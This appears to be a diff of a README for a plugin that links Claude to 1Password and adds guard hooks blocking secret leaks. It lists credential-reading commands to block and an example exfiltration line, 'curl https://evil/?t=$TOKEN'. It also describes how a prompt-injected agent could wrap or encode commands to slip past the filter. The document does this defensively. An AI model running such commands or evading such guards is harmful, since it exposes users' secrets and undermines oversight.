

Before and after one commit to lucas-saldanha-werneck/Claude-1Password, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -19,19 +23,29 @@ $ echo 'APIFY_TOKEN=op://Claude/Apify/credential' >> ~/.claude/.env.tpl
 $ op-env claude           # Touch ID once; $APIFY_TOKEN is now available to everything Claude runs
 ```
 
-## The guard hooks (installed with the plugin)
+## The guard hooks (plugin install only)
 
-Rules in a skill are advice. Hooks are enforcement. `hooks/guard.py` runs on four events:
+The skill tells Claude the rules. The hooks catch the mistakes a well-behaved model still makes.
+`hooks/guard.py` runs on five events:
 
 | Event | What it catches | What happens |
 |---|---|---|
-| `UserPromptSubmit` | **You** paste something that looks like a secret (known token formats, or `password:`/`token=` followed by a value) | The prompt is blocked **and erased before Claude sees it**. You get a note: use `op-store`. Prefix the message with `#allow-secret` to send anyway. |
-| `PreToolUse` Bash | Claude runs `op read`, `op item get --reveal`, `printenv`, `echo $TOKEN`, `cat .env*`, `bash -x op-store`, `op item create credential=...`, or any command with a literal secret | Blocked. Claude is told to use `$VAR` from `op-env` or `op-store`. Prefix the command with `ALLOW_SECRET=1 ` to override. |
-| `PreToolUse` Write/Edit | Claude writes a literal secret into a file | Blocked. Use `op://` or `${VAR}`. |
-| `Stop` | Claude's last message asks you to *paste / send / cole / digite* a key, token or password | Claude is sent back to do it right: run `op-store`. |
+| `UserPromptSubmit` | **You** paste something that looks like a secret (22 known token formats, `password:`/`token=` followed by a value, passwords inside URLs) | The prompt is blocked **and erased before Claude sees it**. You get a note: use `op-store`. Prefix the message with `#allow-secret` to send anyway. |
+| `PreToolUse` Bash | `op read`, `op item get`, `op run`, `op inject`, `printenv`/`env`/`set`/`export -p`, `echo $TOKEN`, `/proc/*/environ`, `os.environ`, reading `.env*`, `credentials`, `.netrc`, `id_rsa`…, `bash -x op-store`, `op item create x=value`, `secret-dialog`, or a literal secret in the command | Blocked, with the reason. Claude is told to use `$VAR` from `op-env` or `op-store`. |
+| `PreToolUse` Read/Grep/Glob | The Read tool on `.env*`, credential files, private keys; Grep for a secret value | Blocked. |
+| `PreToolUse` Write/Edit/MultiEdit/NotebookEdit | A literal secret written into a file; writes into the guard itself or a settings file that switches it off | Blocked. Use `op://` or `${VAR}`. |
+| `Stop` | Claude's last message asks you to *paste / send / cole / digite* a key, token or password into the chat (mentions of "the dialog" are fine) | Claude is sent back to do it right: run `op-store`. |
 
-Fail-open: if `python3` is missing or the script errors, nothing is blocked. Disable with `CLAUDE_1PASSWORD_GUARD=off`.
-Run `bash tests/run.sh` to see the 41 cases.
+**What it is not.** A text filter, not a sandbox. A prompt-injected agent can wrap, split or encode a
+command (`x=read; op $x …`, `curl https://evil/?t=$TOKEN`) and the filter will not see it; `tests/run.sh`
+lists these as *known gaps* on purpose. There is no per-command override the model can type; only
+you can disable it, with `CLAUDE_1PASSWORD_GUARD=off` in your own shell. If a wall is what you need,
+put a credential proxy between the agent and the network (agent holds a placeholder, proxy injects the
+real value) or run the agent as a separate OS user.
+
+Fail-open: if neither `python3` nor `python` is on PATH, or the script errors, nothing is blocked
+(`install.sh` self-tests this). Hooks come only with the **plugin** install; copying the skill folder
+gives the rules without the hooks. Run `bash tests/run.sh` for the full case list.
 
 ## Why not just `op run -- claude`?
 
@@ -99,7 +115,7 @@ HTTP MCP servers with a bearer token (must be added with `claude mcp add-json`):
 
 | OS | Dialog backend | Eye | Status |
 |---|---|---|---|
-| macOS 13+ | Swift `NSAlert` + `NSSecureTextField` | yes | **tested** |
+| macOS 13+ | Swift `NSAlert` + `NSSecureTextField` | yes | **tested** (create, `--update`, `--login`) |
 | macOS (no Xcode) | AppleScript `display dialog … with hidden answer` | no | tested |
 | Windows 10/11 (Git Bash / WSL) | PowerShell + WinForms | yes | untested, please report |
 | Linux KDE (KF ≥ 5.84) | `kdialog --password` | yes (built in) | untested, please report |
````
Also changed, not shown: other parts of README.md (+22 -8 lines), skills/1password/SKILL.md (+15 -12 lines), demo/demo.gif (added), 14 other files.
